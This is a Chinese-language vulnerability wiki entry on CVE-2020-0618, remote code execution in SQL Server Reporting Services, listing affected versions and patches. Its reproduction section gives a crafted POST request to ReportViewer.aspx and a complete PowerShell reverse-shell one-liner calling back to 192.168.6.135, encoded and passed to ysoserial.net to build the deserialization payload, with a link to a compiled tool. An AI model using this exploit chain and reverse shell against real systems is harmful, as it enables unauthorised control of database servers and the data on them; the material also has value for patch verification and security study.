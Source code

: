 （CVE-2020-0618）SQL Server 远程代码执行漏洞
============================================

一、漏洞简介
------------

该漏洞需要经过身份验证后，攻击者向 SQL Server 的报告服务(Reporting
Services) 发送特制请求进行触发。攻击成功可获得SQL
Server服务的对应控制权限。

二、漏洞影响
------------

  产品                                   版本                         修复补丁编号
  -------------------------------------- ---------------------------- --------------
  SQL Server 2016 Service Pack 2(GDR)    13.0.5026.0 - 13.0.5101.9    KB4505220
  SQL Server 2016 Service Pack 2 CU11    13.0.5149.0 - 13.0.5598.27   KB4527378
  SQL Server 2014 Service Pack 3 (GDR)   12.0.6024.0 - 12.0.6108.1    KB4505218
  Server 2014 Service Pack 2 CU4         12.0.6205.1 - 12.0.6329.1    KB4500181
  SQL Server 2012 Service Pack 4 (QFE)   11.0.7001.0 - 11.0.7462.6    KB4057116

三、复现过程
------------

首先登陆 ReportServer/pages/ReportViewer.aspx

    POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
    Host: target
    Content-Type: application/x-www-form-urlencoded
    Content-Length: X

    NavigationCorrector$PageState=NeedsCorrection&NavigationCorrector$ViewState=[PayloadHere]&__VIEWSTATE=

可以在PowerShell中使用以下命令来使用[ysoserial.net](https://github.com/pwntester/ysoserial.net)工具生成有效负载：

    $command = '$client = New-Object System.Net.Sockets.TCPClient("192.168.6.135",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

    $encodedCommand = [Convert]::ToBase64String($bytes)

    .\ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c "powershell.exe -encodedCommand $encodedCommand" -o base64 | clip

> 编译好的ysoserial.net下载地址：<https://github.com/ianxtianxt/ysoserial.net/>
>
> ps：上述命令在powershell里面执行好后，会自动黏贴到剪贴板上。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-0618)SQLServer远程代码执行漏洞/media/rId26.png)

参考链接
--------

> <https://www.mdsec.co.uk/2020/02/cve-2020-0618-rce-in-sql-server-reporting-services-ssrs/>
